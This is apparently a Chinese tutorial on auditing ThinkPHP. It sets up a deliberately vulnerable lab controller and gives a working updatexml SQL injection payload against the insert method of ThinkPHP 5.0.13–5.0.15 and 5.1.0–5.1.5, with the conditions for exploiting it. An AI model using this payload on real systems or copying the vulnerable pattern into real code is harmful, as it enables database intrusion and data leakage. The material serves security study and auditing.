









# ThinkPHP代码审计



ThinkPHP框架分析。



ThinkPHP挖掘思路


## Demo演示

在`Test.php`文件写入`index`方法

```php
public function index(){
    $username = request()->get('name'); // get接受变量名为name
    $userpass = request()->get('pass');
    Db::table('users')->insert(["name" => $username, "password" => $userpass]); // 在表里面插入传递的参数值
}
```

进行插入



对于所执行的sql语句是不是官方的写法：

1. 可以通过审计系统查看，如果审计系统没有检测到，多半是规矩的写法。
2. 根据数据库写法的格式，如果不是官方手册类似写法就不是官方推荐的格式。

## PHP版本寻找漏洞

PHP版本探测

1. url报错（这个报错可以屏蔽的）

   

2. 工具识别

   

3. 在thinkPHP/base.php(思维导图里面还有另外两个地方查看)

   

根据ThinkPHP5.0.15版本，搜索相关漏洞，发现这里存在注入漏洞，是insert的注入漏洞。

将根目录下的composer.json 文件的 require 字段设置成如下：

```json
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.15"
}
```

将 `application/index/controller/Index.php`文件代码设置如下：

```php
<?php
namespace app\index\controller;
class Index
{
    public function index()
    {
        $username = request()->get('username/a'); // 必须要有/a，没有的/a：Payload就无法执行
        db('users')->insert(['username' => $username]);
        return 'Update success';
    }
}
```

 创建数据库信息如下：

```sql
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
```

在 `application/database.php`文件中配置数据库相关信息，并开启 `application/config.php`中的`app_debug`和`app_trace`。



Payload为：`username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1`。



可以将`user()`替换为`version()`函数，进行查看MySQL的版本。

总结：漏洞利用条件

1. thinkphp的版本：5.0.13<=ThinkPHP<=5.0.15 、 5.1.0<=ThinkPHP<=5.1.5

2. 存在insert插入操作

3. 传参的形式以数组的形式传参get('username/a')

## 寻找ThinkPHP漏洞

去thinkphp的官网查看更新（一般有安全更新，然后通过对比与上一个版本不一样的位置，找到漏洞）。



点击commit查看版本差异，通过对应的commit找到相应的安全问题。


